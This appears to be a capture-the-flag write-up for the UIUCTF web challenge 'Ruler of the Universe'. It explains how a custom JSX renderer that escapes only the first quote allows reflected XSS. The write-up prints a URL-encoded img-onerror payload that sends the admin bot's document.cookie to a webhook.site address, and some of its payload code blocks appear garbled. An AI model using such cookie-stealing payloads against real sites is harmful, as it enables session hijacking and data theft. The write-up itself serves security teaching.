








# web/Ruler of the Universe write-up

**Challenge name**: web/Ruler of the Universe (Cameron)

**Description**: With this ship I have the entire universe at my fingertips.

Instancer url: [https://ruler-of-the-universe.chal.uiuc.tf/](https://ruler-of-the-universe.chal.uiuc.tf/)

**Files**: [handout.tar.gz](attachments/handout.tar.gz)

**TL;DR**: XSS challenge - false HttpOnly, flawed JSX renderer

## Initial analysis

### Looking at the web app

The challenge presents a sci-fi themed dashboard for a spaceship (the pictures below are shown from a live instance, but when working out the problem, this can be done locally via running the Docker file).

On the home page, we see the links to view details for the three modules, and an admin bot link in the top right corner:



On each module page, we see that there's an interactive "Crew Message" input field:






The admin bot page has a field for submitting an URL input:



### Looking at the code

Here is the file tree after unzipping `handout.tar.gz`:

```bash
├── adminbot
│   ├── Dockerfile
│   ├── bun.lock
│   ├── index.html
│   ├── index.ts
│   ├── package.json
│   └── tsconfig.json
└── challenge
    ├── Dockerfile
    └── src
        ├── app
        │   ├── app.tsx
        │   ├── data
        │   │   └── modules.ts
        │   └── pages
        │       ├── home.tsx
        │       └── module.tsx
        ├── bun.lock
        ├── index.tsx
        ├── my_jsx
        │   ├── index.ts
        │   └── jsx-dev-runtime.ts
        ├── package.json
        └── tsconfig.json
```

The `index.ts` file in the `adminbot` reveals that the admin bot sets up an endpoint that accepts a `POST` request, takes a `url_part`, and visits the corresponding page using a headless browser:

```ts
POST: async (req) => {
  const body = (await req.json()) as Body;
  // ...
  const newUrl = `${mainUrl}/${body.url_part}`;
  const browser = await puppeteer.launch({ ... });
  const page = await browser.newPage();
  // ...
  await page.goto(newUrl, { ... });
}
```

From the same file, we also see that the flag is set as a cookie before the page is visited: 

```ts
await browser.setCookie({
  name: "flag",
  value: FLAG,
  domain: new URL(mainUrl).hostname,
  httpOnly: false, 
  secure: true,
});
```

The `httpOnly: false` setting is the key takeaway. This means that the cookie's value can be accessed by client-side JavaScript code through `document.cookie`. So we want to steal the cookie!

## Tracing the message via source-to-sink analysis

Sources are points where malicious inputs enter the application, and the sinks are the vulnerable locations where those inputs are executed.

Now we need to find an input vector in the main application. From `challenge/src/index.tsx`, we see the following code:

```tsx
"/module/:id": {
      GET: (req) => {
        const moduleId = parseInt(req.params.id);
        const crewMessage = new URL(req.url).searchParams.get("message");

        return new Response(
          render(
            <App>
              <Module id={moduleId} crewMessage={crewMessage} />
            </App>
          ),
          // ...
        );
      },
    }
```

The `/module/:id` endpoint's `crewMessage` accepts a `message` query parameter read from the URL. This `message` query parameter is our source!

```tsx
const crewMessage = new URL(req.url).searchParams.get("message");
```

Then, the `crewMessage` variable is passed as a prop to the `Module` component: 

```tsx
<Module id={moduleId} crewMessage={crewMessage} />
```

Following this to the Module component, we see that inside `challenge/src/app/pages/module.tsx`, the `crewMessage` prop is rendered inside the `placeholder` attribute of an `<input>` tag. This is our sink!

```tsx
<input
  id="message"
  name="message"
  type="text"
  class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
  placeholder={
    crewMessage
      ? `Update your message: ${crewMessage}`
      : "Enter a message for the crew"
  }
/>
```

The security of the application now rests on the custom renderer in `challenge/src/my_jsx/index.ts`:

```ts
return `${key}="${String(value).replace('"', "&quot;")}"`;
```

The renderer only escapes the first double-quote (`"`) character with its HTML entity, `&quot;`. It fails to sanitize any other special characters. This means if we inject our own double-quote, we can break out of the `placeholder` attribute string and inject new attributes, such as an event handler, to execute JavaScript.

## Crafting the exploit

First, we can do a proof-of-concept with a simple payload to break out of the attribute: 

```js
""/>
```

The initial `"` closes the `placeholder attribute`, allowing the `` tag with its `onerror` event handler to be injected as a new, distinct element. Because the `src` attribute is invalid (`x`), the image fails to load, triggering the `onerror` event and executing your `alert(1)` script. 

To clarify, here is the full HTML transformation below: 

```js
<input 
  // ... 
  placeholder="Update your message: &quot;"/>"
```

After typing this in the "Crew Message" input box, an alert box confirms a successful XSS. 



A webhook is a private, unique URL that acts as a simple data receiver. When we send an HTTP request (e.g. GET) to a webhook URL, the service logs information about the request. In this XSS attack, our JavaScript payload runs on the admin bot's browser, not ours. We have no way to see the output directly. The webhook serves as destination to send the stolen data. One way we can set up a simple webhook is via a service like [webhook.site](https://webhook.site/):



Knowing our goal is to steal the cookie, we can craft a payload to send the `document.cookie` (we've also added the `innerText` here to show the injection more clearly):

```js
""/>?c='+encodeURIComponent(document.cookie)+'&b='+encodeURIComponent(document.body.innerText)">
```

This script hijacks the `onerror` event to redirect the page, sending the encoded cookie as a query parameter to our webhook.

The final payload contains special characters that must be URL-encoded to be correctly interpreted when passed in the `message` parameter:

```
%22%22/%3E%3Cimg%20src%3Dx%20onerror%3D%22location%3D%27https://webhook.site/<YOUR_UNIQUE_ID>%3Fc%3D%27%2BencodeURIComponent(document.cookie)%2B%27%26b%3D%27%2BencodeURIComponent(document.body.innerText)%22%3E
```

We can then construct the `url_part`:

```
module/0?message=%22%22/%3E%3Cimg%20src%3Dx%20onerror%3D%22location%3D%27https://webhook.site/<YOUR_UNIQUE_ID>%3Fc%3D%27%2BencodeURIComponent(document.cookie)%2B%27%26b%3D%27%2BencodeURIComponent(document.body.innerText)%22%3E
```

And submit it to the admin bot:



The admin bot visits the malicious link, triggering the XSS. Its browser sends the cookie to our webhook server, where the flag appears in the logs. 



The flag is: `uiuctf{maybe_i_should_just_use_react_c49b79}`

(When we render a variable in React, it automatically escapes the content to try to prevent XSS attacks!)

## Resources

- HttpOnly: https://owasp.org/www-community/HttpOnly
- LiveOverflow explanation of sources and sinks: https://www.youtube.com/watch?v=ZaOtY4i5w_U
- XSS protection and vulnerabilities in React: https://stackoverflow.com/questions/33644499/what-does-it-mean-when-they-say-react-is-xss-protected
- XSS: https://owasp.org/www-community/attacks/xss/